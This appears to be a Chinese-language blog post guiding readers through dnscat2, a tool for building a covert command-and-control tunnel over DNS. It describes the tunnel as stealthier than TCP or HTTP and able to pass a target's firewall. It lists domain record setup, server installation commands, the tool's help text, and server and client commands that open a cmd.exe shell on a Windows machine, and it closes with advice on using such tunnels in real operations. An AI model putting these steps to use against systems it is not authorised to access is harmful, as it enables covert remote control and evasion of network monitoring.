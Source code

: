```yaml
---
layout:     post                                    # 使用的布局（不需要改）
title:       dnscat2                          # 标题 
subtitle:      Dnscat2指南                  #副标题
date:       2020-06-08                          # 时间
author:     cx                                          # 作者
header-img:     #这篇文章标题背景图片
header-mask:    # 博文页面上端的背景图片的亮度，数值越大越黑暗
catalog: true                                           # 开启catalog，将在博文侧边展示博文的结构
istop: false              # 设为true可把文章设置为置顶文章
tags:
    - dnscat2      #标签
---
```

DNS原理
dns是域名系统,就是把域名(例如:cx-reboot.github.io)转换成相对的ip地址(例如:185.199.109.153)进行解析.就是方便好记.类似写信时候家庭地址和邮政编码的关系.


dnscat2可以通过dns协议创建c&c隧道,比常见的tcp/http等协议的隧道更隐蔽.而且实际情况下对方防火墙进行拦截,只有dns流量能出来正常通讯.

dns需要开启服务器53端口,协议是UDP.

开始安装之前,你需要准备好域名,设置一个A记录指向你的服务器地址,再设置一个ns记录指向你的之前设置的子域名
例如:
域名      类型    记录值
ns.cx.com   A     123.45.678.90	//设置ns.cx.com解析到ip 123.45.678.90
dns.cx.com  NS    ns.cx.com     //设置dns.cx.com解析到域名 ns.cx.com

先给出官网github地址:
https://github.com/iagox86/dnscat2

服务端安装

git clone https://github.com/iagox86/dnscat2.git

apt-get -y install ruby-dev git make g++

cd dnscat2/server/

bundle install

客户端有exe格式和powershell两个版本,为了方便,这里是使用exe格式.
下载地址:
https://downloads.skullsecurity.org/dnscat2/

使用方法

服务器创建好后,查看一下帮助(--help)
-h，--h占位符以寻求帮助
  -v，--version获取dnscat版本
  -d，--dns = <s>启动DNS服务器。可以选择通过多个
                            逗号分隔的名称=值对（主机，端口，
                            域）。例如，'-dns
                            host = 0.0.0.0，port = 53531，domain = skullseclabs.org'-
                            “域”可以多次传递
  -n，--dnshost = <s>要侦听的DNS IP地址[不建议使用]
                            （默认值：0.0.0.0）
  -s，--dnsport = <i>在[不推荐使用]上侦听的DNS端口（默认值：
                            53）
  -p，--passthrough = <s>未处理的请求发送到上游DNS服务器，
                            host：port（默认值：）
  -e，--security = <s>设置安全级别； “开放”让客户
                            选择; 'encrypted'需要加密（默认为
                            --secret没有设置）; “已认证”要求
                            加密和身份验证（如果--secret，则为默认值
                            设置）
  -c，--secret = <s>预共享的机密，传递给客户端和
                            服务器以防止中间人攻击
  -a，--auto-command = <s>发送给每个连接的客户端（默认值：）
  -u，--auto-attach自动附加到新会话
  -k，--packet-trace显示传入/传出的dnscat数据包
  -r，--process = <s>如果已设置，则为每个传入运行给定进程
                            控制台/执行会话，并提供标准输入/标准输出。这个
                            有安全隐患。
  -i，--history-size = <i>窗口将要记录的历史行数
                            保持（默认值：1000）
  -l，--listener = <i>调试：在给定端口上启动侦听器驱动程序
  -f，--firehose如果设置，则所有输出都转到stdout而不是
                            放在窗户里。
  --cache，--no-cache如果设置，则在服务器上启用缓存。 （默认：
                            真正）
  --help显示此消息
  
基础用法

server
ruby dnscat2.rb dns.cx.com --secret=123456

client
dnscat2.exe dns.cx.com  --secret=123456

获得会话后
sessions查看全部会话
session -i id 进入会话
输入windows得到第二个会话(或者输入shell)
ctrl+z 退出当前会话
sessions 查看所有会话
会发现多了一个会话,开头是cmd.exe,进入会话,执行命令.ok!

其他功能参考官网文档和帮助

总结:
实际操作,常规隧道基本不好使,dns/icmp是主流,但是还是有很多流量监测工具可以识别.一切根据实际情况灵活运用.


















